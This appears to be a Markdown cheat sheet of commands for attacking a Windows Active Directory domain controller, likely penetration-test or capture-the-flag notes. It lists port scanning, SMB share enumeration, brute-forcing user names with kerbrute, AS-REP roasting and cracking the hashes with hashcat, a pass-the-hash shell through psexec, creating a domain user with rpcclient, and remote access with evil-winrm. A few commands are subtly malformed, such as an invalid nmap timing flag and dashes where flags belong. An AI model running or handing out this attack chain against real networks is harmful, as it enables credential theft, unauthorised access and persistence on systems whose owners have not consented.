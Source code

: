 ### Nmap Scan 
- `nmap -p 53,135,139,88,389,445,464,593,636,3268,3269,5985,9389,49676,49696,49674,49675,49667,49666 -sV -sC -T16 -Pn -oA $IP $IP`

### Get Domain name
- `smbmap -H $IP`

### Get user's list
- `GetADUsers.py $DOMAIN.local/ -dc-ip $IP -debug`

### Brute-force users on Domain
- `kerbrute userenum -d $DOMAIN.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt — dc $IP`

### SAMBA
- `smbclient -L \\\\$IP -N` Enumerate
- `smbclient \\\\$IP/SHARE` login to share

### Get Hashes
- `GetNPUsers.py '$DOMAIN' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip $IP`

### Crack Hashes
- `hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt — force`

### Shell
`psexec.py -hashes '$HASH' dc-ip $IP $User@$IP`

### rpcclient
- `rpcclient -U "" -N $DOMAIN` Connect to rpcclient
- `enumdomusers` Enumerate Domain Users
-  `queryuser $RID` Enumerate User
- `enumdomgroups` Enumerate Domain Groups
- `getdomwinfo` Domain Password Information 
- `createdomuser $NAME` ,`setuserinfo2 $NAME 24 $PASSWORD` Creating Domain User

<!-- -->
[Enumerating AD with rpcclient](https://www.hackingarticles.in/active-directory-enumeration-rpcclient/)

### BloodHound
starting BloodHound
- `sudo neo4j console`
- `bloodhound`
 <!-- -->
 
 Credentials
- `Username: neo4j`
- `Password: BloodHound`

<!-- -->

### Misc
- `ruby evil-winrm.rb -i $IP -u $USER -p $PASS`
- `pwsh` to run powershell on kali


[WADComs](https://wadcoms.github.io/)